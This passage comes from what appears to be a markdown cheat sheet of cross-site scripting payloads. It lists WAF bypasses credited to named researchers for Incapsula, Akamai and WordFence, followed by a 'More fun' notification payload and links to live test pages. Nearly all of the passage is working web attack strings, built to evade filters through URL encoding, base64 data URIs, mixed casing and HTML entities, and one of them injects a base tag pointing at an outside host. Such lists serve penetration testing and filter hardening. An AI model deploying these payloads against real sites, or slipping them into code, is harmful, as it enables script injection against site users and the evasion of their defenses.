 Live example by @brutelogic - [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?c1=</script><svg><script>alert(1)-%26apos%3B)

### Incapsula WAF Bypass by [@Alra3ees](https://twitter.com/Alra3ees/status/971847839931338752)- 8th march 2018

```javascript
anythinglr00</script><script>alert(document.domain)</script>uxldz

anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
```

### Incapsula WAF Bypass by [@c0d3G33k](https://twitter.com/c0d3G33k) - 11th september 2018

```javascript
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
```


### Akamai WAF Bypass by [@zseano](https://twitter.com/zseano) - 18th june 2018

```javascript
?"></script><base%20c%3D=href%3Dhttps:\mysite>
```

### Akamai WAF Bypass by [@s0md3v](https://twitter.com/s0md3v/status/1056447131362324480) - 28th october 2018

```html
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
```

### WordFence WAF Bypass by [@brutelogic](https://twitter.com/brutelogic) - 12th september 2018

```javascript
<a href=javas&#99;ript:alert(1)>
```

## More fun

This section will be used for the "fun/interesting/useless" stuff.

Use notification box instead of an alert - by [@brutelogic](https://twitter.com/brutelogic)
Note : it requires user permission

```javascript
Notification.requestPermission(x=>{new(Notification)(1)})
```

Try here : [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?c3=%27;Notification.requestPermission(x=>%7Bnew(Notification)(1)%7D)//)

## References
